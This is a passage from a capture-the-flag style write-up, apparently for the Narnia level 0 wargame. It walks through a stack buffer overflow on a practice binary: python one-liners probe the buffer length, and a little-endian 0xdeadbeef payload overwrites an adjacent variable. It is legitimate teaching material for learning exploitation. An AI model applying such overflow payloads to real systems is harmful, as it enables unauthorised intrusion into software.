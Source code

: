 * If we run it in the above manner, it will be difficult to tell what the **length** of the string is. Let us run it like this.
		
		narnia0@narnia:/narnia$ python -c "print 'a' * 15" | ./narnia0
		Correct val's value from 0x41414141 -> 0xdeadbeef!
		Here is your chance: buf: aaaaaaaaaaaaaaa
		val: 0x41414141
		WAY OFF!!!!
		narnia0@narnia:/narnia$ python -c "print 'a' * 20" | ./narnia0
		Correct val's value from 0x41414141 -> 0xdeadbeef!
		Here is your chance: buf: aaaaaaaaaaaaaaaaaaaa
		val: 0x41414100
		WAY OFF!!!!
		narnia0@narnia:/narnia$ python -c "print 'a' * 21" | ./narnia0
		Correct val's value from 0x41414141 -> 0xdeadbeef!
		Here is your chance: buf: aaaaaaaaaaaaaaaaaaaaa
		val: 0x41410061
		WAY OFF!!!!
		narnia0@narnia:/narnia$ python -c "print 'a' * 22" | ./narnia0
		Correct val's value from 0x41414141 -> 0xdeadbeef!
		Here is your chance: buf: aaaaaaaaaaaaaaaaaaaaaa
		val: 0x41006161
		WAY OFF!!!!
		narnia0@narnia:/narnia$ 

4. Exploiting it!

* We are using to python generate input strings, that is the only difference. 
* Observe carefully: 
	* case **'a' * 15** : val = 0x41414141
	* case **'a' * 20** : val = **0x41414100** : Here 1 0x41 is replaced by **0x00**.
	* case **'a' * 21** : val = **0x41410061		: Here, 0x4141 is replaced by **0x6100**	(This is a **little-endian** architecture). The 0x00 is the **NULL** character at the end of the string.

* We can conclude that the variables **buf** and **val** are stored in memory in this manner.
		
		<----------------buf: 20 bytes---------------><val: 4 bytes>
							 	
* In the input, after **20** **a**s, we can have **0xdeadbeef**, which will overwrite existing value 0x41414141.

* But 0xde, 0xad, 0xbe,0xef are all **non-printable characters**. They cannot be typed . For this reason, we will use python to give the input. The input payload is obtained when this python command gets executed.

		python -c "print 'a' * 20 + '\xef\xbe\xad\xde'"

* The order of 0xdeadbeef is reversed in the input string because it is a **little-endian** architecture. 

* Let us input this and see what we get.

		narnia0@narnia:/narnia$ python -c "print 'a' * 20 + '\xef\xbe\xad\xde'" | ./narnia0
		Correct val's value from 0x41414141 -> 0xdeadbeef!
		Here is your chance: buf: aaaaaaaaaaaaaaaaaaaaﾭ�
		val: 0xdeadbeef
		narnia0@narnia:/narnia$ 
